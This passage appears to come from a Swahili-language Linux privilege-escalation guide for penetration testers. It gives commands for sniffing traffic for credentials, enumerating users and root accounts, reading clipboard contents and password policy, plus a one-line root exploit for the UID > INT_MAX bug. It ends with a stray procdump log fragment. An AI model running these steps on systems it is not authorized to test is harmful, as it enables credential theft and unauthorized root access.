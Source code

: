 Angalia kama unaweza sniff traffic. Ikiwa unaweza, unaweza kupata credentials.
```
timeout 1 tcpdump
```
## Watumiaji

### Generic Enumeration

Angalia ni **nani** wewe, ni **privileges** gani ulizo, ni **watumiaji** gani wako kwenye mfumo, ni nani wanaweza **kuingia** na ni nani wana **root privileges**:
```bash
#Info about me
id || (whoami && groups) 2>/dev/null
#List all users
cat /etc/passwd | cut -d: -f1
#List users with console
cat /etc/passwd | grep "sh$"
#List superusers
awk -F: '($3 == "0") {print}' /etc/passwd
#Currently logged users
w
#Login history
last | tail
#Last log of each user
lastlog

#List all users and their groups
for i in $(cut -d":" -f1 /etc/passwd 2>/dev/null);do id $i;done 2>/dev/null | sort
#Current user PGP keys
gpg --list-keys 2>/dev/null
```
### UID Kubwa

Baadhi ya matoleo ya Linux yaliathiriwa na hitilafu inayowawezesha watumiaji wenye **UID > INT_MAX** kuinua ruhusa. More info: [here](https://gitlab.freedesktop.org/polkit/polkit/issues/74), [here](https://github.com/mirchr/security-research/blob/master/vulnerabilities/CVE-2018-19788.sh) and [here](https://twitter.com/paragonsec/status/1071152249529884674).\
**Exploit it** using: **`systemd-run -t /bin/bash`**

### Vikundi

Angalia kama wewe ni **mwanachama wa kikundi fulani** ambacho kinaweza kukupa ruhusa za root:


{{#ref}}
interesting-groups-linux-pe/
{{#endref}}

### Ubao wa kunakili

Angalia kama kuna kitu chochote cha kuvutia ndani ya ubao wa kunakili (ikiwa inawezekana)
```bash
if [ `which xclip 2>/dev/null` ]; then
echo "Clipboard: "`xclip -o -selection clipboard 2>/dev/null`
echo "Highlighted text: "`xclip -o 2>/dev/null`
elif [ `which xsel 2>/dev/null` ]; then
echo "Clipboard: "`xsel -ob 2>/dev/null`
echo "Highlighted text: "`xsel -o 2>/dev/null`
else echo "Not found xsel and xclip"
fi
```
### Sera ya Nywila
```bash
grep "^PASS_MAX_DAYS\|^PASS_MIN_DAYS\|^PASS_WARN_AGE\|^ENCRYPT_METHOD" /etc/login.defs
```

[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714